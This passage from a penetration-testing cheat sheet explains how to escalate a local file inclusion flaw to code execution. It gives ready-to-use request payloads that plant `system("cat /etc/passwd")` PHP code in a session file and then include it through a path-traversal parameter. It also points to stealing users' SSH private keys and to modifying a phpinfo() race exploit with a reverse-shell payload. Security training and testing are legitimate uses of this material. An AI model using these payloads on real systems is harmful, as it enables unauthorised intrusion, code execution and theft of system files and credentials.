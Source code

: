 ### Via PHP sessions

Check if the website use PHP Session \(PHPSESSID\)

```text
Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
```

In PHP these sessions are stored into _/var/lib/php5/sess\_\[PHPSESSID\]_ files

```text
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
```

Set the cookie to `<?php system('cat /etc/passwd');?>`

```text
login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
```

Use the LFI to include the PHP session file

```text
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm2
```

### Via ssh

If ssh is active check which user is being used \(/proc/self/status & /etc/passwd\) and try to access **&lt;HOME&gt;/.ssh/id\_rsa**

### Via phpinfo\(\) \(file\_uploads = on\)

To exploit this vulnerability you need: **A LFI vulnerability, a page where phpinfo\(\) is displayed, "file\_uploads = on" and the server has to be able to write in the "/tmp" directory.**

[https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/phpinfolfi.py](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/phpinfolfi.py)

**Turotial HTB**: [https://www.youtube.com/watch?v=rs4zEwONzzk&t=600s](https://www.youtube.com/watch?v=rs4zEwONzzk&t=600s)

You need to fix the exploit \(change  **=&gt;** for **=&gt;**\). To do so you can do:

```text
sed -i 's/\[tmp_name\] \=>/\[tmp_name\] =\&gt/g' phpinfolfi.py
```

You have to change also the **payload** at the beginning of the exploit \(for a php-rev-shell for example\), the **REQ1** \(this should point to the phpinfo page and should have the padding included, i.e.: _REQ1="""POST /install.php?mode=phpinfo&a="""+padding+""" HTTP/1.1\r_\), and **LFIREQ** \(this should point to the LFI vulnerability, i.e.: _LFIREQ="""GET /info?page=%s%%00 HTTP/1.1\r   --_  Check the double "%" when exploiting null char\)
